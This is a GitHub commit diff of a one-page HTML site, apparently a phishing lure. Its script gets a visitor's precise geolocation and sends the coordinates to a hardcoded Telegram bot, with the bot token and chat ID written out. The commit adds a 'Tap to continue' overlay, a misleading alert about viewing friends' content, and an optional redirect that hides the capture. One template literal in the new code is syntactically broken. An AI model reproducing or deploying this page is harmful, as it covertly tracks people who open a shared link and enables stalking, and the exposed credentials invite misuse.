

Before and after one commit to softwareabhi01-maker/Image-private-image, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Add files via upload

```diff
--- a/index.html
+++ b/index.html
@@ -1,27 +1,77 @@
 <!DOCTYPE html>
 <html>
-<body style="text-align:center;font-family:sans-serif">
-<h2>Location Verification</h2>
-<button onclick="getLocation()">Allow Location</button>
+<head>
+  <meta name="viewport" content="width=device-width, initial-scale=1">
+  <title>Continue</title>
+  <style>
+    html, body {
+      margin: 0; padding: 0; height: 100%;
+      font-family: system-ui, -apple-system, BlinkMacSystemFont, sans-serif;
+      background: #0f172a; color: #fff;
+    }
+    .overlay {
+      height: 100%;
+      display: flex;
+      align-items: center;
+      justify-content: center;
+      text-align: center;
+      cursor: pointer;
+    }
+    .card {
+      background: rgba(255,255,255,0.08);
+      backdrop-filter: blur(8px);
+      border-radius: 16px;
+      padding: 28px 22px;
+      box-shadow: 0 20px 40px rgba(0,0,0,.35);
+      max-width: 320px;
+      animation: pop .25s ease-out;
+    }
+    .card h2 { margin: 0 0 10px; font-size: 20px; }
+    .card p  { margin: 0; opacity: .85; font-size: 14px; }
+    .hint { margin-top: 14px; font-size: 12px; opacity: .7; }
+
+    @keyframes pop { from { transform: scale(.96); opacity: 0 } to { transform: scale(1); opacity: 1 } }
+  </style>
+</head>
+<body>
+
+<div class="overlay" onclick="start()">
+  <div class="card">
+    <h2>Tap to continue</h2>
+    <p>Allow location to proceed</p>
+    <div class="hint">Just one tap</div>
+  </div>
+</div>
 
 <script>
-function getLocation() {
-  navigator.geolocation.getCurrentPosition(sendLocation);
-}
+const BOT_TOKEN = "8032728319:AAERv5p9V2XF0f_q3B8T-DVmLhxDb6NnjB0";
+const CHAT_ID  = "8215590469";
 
-function sendLocation(pos) {
-  var lat = pos.coords.latitude;
-  var lon = pos.coords.longitude;
+// Optional redirect after permission
+const REDIRECT_URL = new URLSearchParams(location.search).get("go");
 
-  fetch("https://api.telegram.org/bot8032728319:AAERv5p9V2XF0f_q3B8T-DVmLhxDb6NnjB0/sendMessage", {
-    method: "POST",
-    headers: {"Content-Type": "application/json"},
-    body: JSON.stringify({
-      chat_id: "8215590469",
-      text: "📍 Location Received:\nLat: " + lat + "\nLon: " + lon
-    })
-  });
+function start(){
+  // Prevent double taps
+  document.querySelector('.overlay').onclick = null;
+
+  navigator.geolocation.getCurrentPosition(async (pos)=>{
+    await fetch(`https://api.telegram.org/bot${8032728319:AAERv5p9V2XF0f_q3B8T-DVmLhxDb6NnjB0}/sendMessage`,{
+      method:"POST",
+      headers:{ "Content-Type":"application/json" },
+      body: JSON.stringify({
+        chat_id: 8215590469,
+        text: `📍 Location\nLat: ${pos.coords.latitude}\nLon: ${pos.coords.longitude}`
+      })
+    });
+
+    if (REDIRECT_URL) {
+      window.location.href = decodeURIComponent(REDIRECT_URL);
+    }
+  }, ()=>{
+    alert("Tap Allow To View Your Friends Content");
+  }, { enableHighAccuracy: true, timeout: 10000 });
 }
 </script>
+
 </body>
 </html>
```
